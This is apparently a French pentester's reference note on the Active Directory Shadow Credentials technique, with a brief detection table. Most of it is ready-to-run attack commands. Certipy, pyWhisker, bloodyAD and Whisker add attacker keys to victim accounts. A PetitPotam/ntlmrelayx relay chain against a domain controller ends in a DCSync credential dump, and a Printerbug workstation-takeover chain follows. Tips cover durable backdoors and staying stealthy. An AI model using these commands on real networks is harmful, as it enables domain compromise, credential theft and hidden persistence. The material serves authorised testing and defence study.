

# 🌑 Shadow Credentials

> [!info] **En 1 phrase**
> On **ajoute notre propre clé publique** dans l'attribut `msDS-KeyCredentialLink` d'un compte cible,
> puis on s'authentifie **en tant que ce compte** via PKINIT → on obtient un TGT → on est le compte.

> [!info] 💡 **Le principe (Key Trust / Windows Hello for Business)**
> WHfB stocke des clés publiques dans `msDS-KeyCredentialLink`. Si on peut **écrire** dans cet
> attribut (GenericWrite/GenericAll...), on se lie une clé dont on a la **clé privée** → le KDC
> nous délivre un TGT pour ce compte (PKINIT). C'est un **backdoor** qui survit aux changements de mot de passe !

---

## 🎯 Conditions



- DC **Windows Server 2016+** (minimum pour PKINIT/Key Trust).
- AD CS configuré (pour l'auth par certificat) **ou** mode "Key Trust".
- Un droit d'**écriture** sur `msDS-KeyCredentialLink` du compte cible.
- ⚠️ **Les comptes machines** peuvent s'éditer eux-mêmes (une seule clé max) ; les **users** non.

---

## 🛠️ Exploitation

### Certipy (tout-en-un)

```bash
# "add" : génère une paire de clés, l'ajoute au compte cible, écrit le .pfx
certipy shadow -u 'attacker@domain.local' -p 'Passw0rd!' -dc-ip 10.0.0.100 -account 'victim' add

# "auto" : exploite + récupère un TGT automatiquement
certipy shadow auto -account victim -dc-ip DC -dns-tcp -ns 10.10.10.10 -k -target dc.domain.lab

# S'authentifier en tant que la victime avec le .pfx (PKINIT → TGT)
certipy auth -pfx victim.pfx -dc-ip DC -username victim -domain domain.local
# → hash NT / AES de la victime + options (ptt / shell)
```

### pyWhisker / Whisker (fin)

```bash
# Lister les clés existantes (attention à ne pas écraser la clé réelle de la machine !)
pywhisker.py -d domain.local -u user1 -p complexpassword --target user2 --action list
pywhisker.py -d domain.local -u user1 -p complexpassword --target user2 --action add --filename cert.pfx

# blood yAD
bloodyAD --host DC -u user -p pass -d domain add shadowCredentials targetpc$
# nettoyage (TOUJOURS supprimer la clé ajoutée en fin d'engagement)
bloodyAD --host DC -u user -p pass -d domain remove shadowCredentials targetpc$ --key <key>
```

```powershell
# Windows : Whisker
Whisker.exe add /target:computername$ /domain:contoso.local /dc:dc1.contoso.local /path:cert.pfx /password:P@ssw0rd
Whisker.exe list /target:computername$
Whisker.exe remove /target:computername$ /remove:<device-id>
```

---

## 🔀 Variantes puissantes

### Shadow Credential Relay (on "se lie" un DC$ !)

```
But : écrire sur le msDS-KeyCredentialLink du compte DC$ d'un DC → se faire passer pour le DC → DCSync.
```

```bash
# 1. Coercer une auth depuis DC01 (PetitPotam) → la relayer vers DC02 (LDAP)
python3 petitpotam.py -d domain -u user -p pass ATTACKER_IP DC01_IP
ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'

# 2. Récupérer un TGT pour le compte machine du DC
python3 gettgtpkinit.py 'domain/dc01$' dc01.ccache -cert-pfx <cert.pfx> -pfx-pass <pass>

# 3. Demander un ticket service en tant qu'admin
python3 gets4uticket.py "kerberos+ccache://domain/dc01$:dc01.ccache@dc.domain.local" \
  cifs/dc01.domain@domain.local administrator@domain.local admin.ccache

# 4. DCSync
export KRB5CCNAME=/path/admin.ccache
secretsdump.py -k -no-pass domain/administrator@dc.domain.local
```

### Workstation Takeover (RBCD + Shadow Credentials)

```
Printerbug + WebClient : on coerce la cible vers notre ntlmrelayx, on se lie des
shadow credentials, on prend le contrôle de la machine (S4U → ticket admin local).
```

```bash
ntlmrelayx.py -t ldaps://dc.domain.lab --shadow-credentials --shadow-target 'target$' --http-port 81
proxychains python3 printerbug.py domain/user:pass@target attacker@8081/file   # déclenche WebClient
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Surveiller les ajouts dans `msDS-KeyCredentialLink`** | Événement 4768 (PKINIT) + modifications d'attributs (4662/5136) |
| **Restreindre `GenericWrite`** | Les droits d'écriture sur les comptes = très sensibles |
| **Surveiller les auths PKINIT inattendues** | Un compte qui s'auth par cert sans WHfB connu |
| **Nettoyage** | Supprimer les clés ajoutées = seule vraie contre-mesure à chaud |

## ⚠️ Tips & Pièges

- **Backdoor durable** : changer le mdp de la cible ne supprime PAS la clé → on reste dedans.
- Sur un compte **machine**, il ne peut y avoir **qu'une clé** : `add` écrase la clé WHfB légitime → la machine peut casser son propre login. **Liste avant d'ajouter** et **supprime après**.
- Le `.pfx` généré est la clé privée : ne le perds pas, il sert à chaque connexion (via `certipy auth -pfx`).
- `certipy shadow auto` fait tout le travail mais peut être repéré (requêtes DNS etc.) — fais du manuel pour rester discret.

---

> [!info] 📚 **Sources**
> - [InternalAllTheThings — Shadow Credentials](https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/active-directory/pwd-shadow-credentials.md)
> - [Shadow Credentials: Workstation Takeover Edition](https://www.fortalicesolutions.com/posts/shadow-credentials-workstation-takeover-edition)
> - [The Hacker Recipes — Shadow Credentials](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials)

➡️ Liens : [[LAPS et GMSA|🗝️ LAPS & GMSA]] · [[Kerberos Delegation|🧬 Kerberos Delegation]] · [[05 - Active Directory|👑 Active Directory]]
